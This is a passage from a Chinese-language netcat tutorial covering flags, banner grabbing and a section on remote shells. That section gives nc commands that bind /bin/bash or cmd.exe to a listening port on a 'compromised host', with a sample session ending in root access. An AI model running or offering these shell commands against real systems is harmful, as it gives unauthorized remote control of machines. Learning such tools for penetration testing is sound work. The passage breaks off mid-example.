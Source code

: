    -l 开启监听状态  
    -v 显示详细信息  
    -p 指定监听的本地端口  
    -k 客户端断掉连接时，服务端依然保持运行  
    -e 将传入的信息以命令执行  
    -n 直接使用 IP 地址，不进行 dns 解析过程

### 获取 banner 信息

个人觉着最常用的功能，这个不仅可以用来查看 banner 信息，还能用来判断端口是否开放。

    
    
    nc -vv rhost rport
    
    
    > nc -v 172.16.214.43 22  
    Connection to 172.16.214.43 port 22 [tcp/ssh] succeeded!  
    SSH-2.0-OpenSSH_8.4p1 Debian-3

### 反弹shell

个人觉着这个也是最常用的功能，可以使用 -e 指定 /bin/bash 进行反弹，也可以直接 -c 指定 bash 或者 cmd

 **-e 指定反弹 shell**

    
    
    # 失陷主机  
    nc -lvp lport -e /bin/bash        # linux 主机  
    nc -lvp lport -e c:\windows\system32\cmd.exe     # windows 主机  
      
    # 控制端  
    nc rhost rport
    
    
    # 失陷主机  
    > nc -lvp 4444 -e /bin/bash  
    listening on [any] 4444 ...  
    172.16.214.1: inverse host lookup failed: Unknown host  
    connect to [172.16.214.43] from (UNKNOWN) [172.16.214.1] 60628  
      
    # 控制端  
    > nc -v 172.16.214.43 4444  
    Connection to 172.16.214.43 port 4444 [tcp/krb524] succeeded!  
    whoami  
    root

 **-c 指定反弹 shell**

    
    
    # 失陷主机  
    nc -lvp lprot -c bash    # linux 主机  
    nc -lvp lport -c cmd     # windows 主机  
      
